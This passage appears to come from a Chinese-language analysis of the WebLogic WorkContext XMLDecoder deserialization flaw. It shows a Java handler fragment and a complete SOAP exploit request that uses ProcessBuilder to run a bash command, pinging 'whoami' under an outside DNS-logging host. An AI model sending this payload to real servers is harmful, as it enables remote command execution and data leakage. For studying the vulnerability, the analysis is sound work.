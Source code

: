             Header var4 = var2.get(this.JAX_WS_WORK_AREA_HEADER, true);
            if (var4 != null) {
                this.readHeader(var4);
            }
        }

        return super.processRequest(var1);
    }

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

    <a class="__yjs_email__" href="/cdn-cgi/l/email-protection" data-yjsemail="d0b3bfbdfea3a5befea8bdbcfea7a3feb1a0b9febdb5a3a3b1b7b5fe80b1b3bbb5a490e4e4e1e9b2b1b3b2">[email protected]</a><script data-yjshash='f9e31' type="text/javascript">/* <![CDATA[ */!function(t,e,r,n,c,a,p){try{t=document.currentScript||function(){for(t=document.getElementsByTagName('script'),e=t.length;e--;)if(t[e].getAttribute('data-yjshash'))return t[e]}();if(t&&(c=t.previousSibling)){p=t.parentNode;if(a=c.getAttribute('data-yjsemail')){for(e='',r='0x'+a.substr(0,2)|0,n=2;a.length-n;n+=2)e+='%'+('0'+('0x'+a.substr(n,2)^r).toString(16)).slice(-2);p.replaceChild(document.createTextNode(decodeURIComponent(e)),c)}p.removeChild(t)}}catch(u){}}()/* ]]> */</script> Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
